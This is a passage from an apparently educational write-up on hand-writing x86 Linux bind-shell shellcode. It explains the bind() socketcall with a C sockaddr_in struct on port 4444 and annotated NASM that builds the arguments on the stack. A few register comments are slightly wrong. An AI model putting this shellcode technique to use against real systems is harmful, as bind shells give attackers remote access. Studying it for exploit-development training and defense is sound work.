 This System Call is tricky because we will need to have an array within an array.  
+ `ECX[1]` will point to the start of the array of 3 variables on the Stack.  
+ We will push these 3 variables onto the stack first, then we will push `ECX[2]`, `ECX[1]`, and finally `ECX[0]`.  

 This is the struct we used in C to store the IP-Socket Address values used for the bind() function call:  

```c
struct sockaddr_in ipSocketAddr = { 
  .sin_family = AF_INET,         // ARG[0]
  .sin_port = htons(4444),       // ARG[1]
  .sin_addr.s_addr = INADDR_ANY  // ARG[2]
};
```  

+ `ARG[0] = AF_INET = 0x2`
  - We know this value from the last SYSCAL we did.  
+ `ARG[1] = htons(4444) =  0x5c11`
  - All this means is `4444` in reverse, in Hex (`0x115C`).
  - Everything pushed onto the Stack needs to be in reverse.  
+ `ARG[2] = INADDR_ANY = 0x00000000`
  - All Network Interfaces
  - Find value for `INADDR_ANY`: 
```console
 cat /usr/src/linux-headers-$(uname -r)/include/uapi/linux/in.h | grep INADDR_ANY  
   #define INADDR_ANY ((unsigned long int) 0x00000000)
```
 
 The order to push all this on the stack will be:   
1. `ARG[2]`  
2. `ARG[1]`  
3. `ARG[0]`  
4. `ECX[2]`  
5. `ECX[1]`  
6. `ECX[0]`  

```nasm
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register.
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is 
                  ;  now loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now all that is left is to point ECX to the top of the loaded stack.
int 0x80          ; System Call Interrupt 0x80 
```
